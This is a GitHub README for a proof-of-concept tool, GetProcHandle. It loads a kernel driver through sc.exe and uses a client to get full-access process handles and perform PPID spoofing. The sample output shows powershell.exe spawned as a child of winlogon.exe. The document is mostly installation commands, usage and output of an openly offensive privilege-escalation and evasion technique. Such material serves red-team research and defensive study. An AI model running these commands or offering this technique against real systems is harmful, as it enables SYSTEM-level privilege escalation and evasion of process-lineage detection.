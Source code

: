 # GetProcHandle

PoCs to get full access process handle from kernelmode.

## Installation

```
PS C:\> sc.exe create GetProcHandle type= kernel binpath= C:\Dev\GetProcHandleDrv_x64.sys
PS C:\> sc.exe start GetProcHandle
```

## Client Program Usage

Client program performs PPID Spoofing with the kernel driver.

```
PS C:\Dev> .\GetProcHandleClient.exe -h

GetProcHandleClient - Client for GetProcHandleDrv.

Usage: GetProcHandleClient.exe [Options]

        -h, --help    : Displays this help message.
        -c, --command : Specifies command to execute. Default is "cmd.exe".
        -p, --pid     : Specifies PID of parent process.

[!] -p option is required.
```

Specifies PID for PPID Spoofing with `-p` option.
Command to execute can be specified with `-c` option (default is `cmd.exe`):

```
PS C:\Dev> .\GetProcHandleClient.exe -p 696 -c powershell.exe

[>] Sending a query to \??\GetProcHandle.
[+] Got a handle to \??\GetProcHandle (Handle = 0x2D0)
[+] Got a handle to the target process (Handle = 0x2D4).
[>] Trying to create child process from the handle.
    [*] Process ID   : 696
    [*] Process Name : winlogon.exe
[+] Got a new process.
    [*] Process ID : 3408
    [*] Thread ID  : 6564
[*] Done.
```

![](./figures/GetProcHandle.png)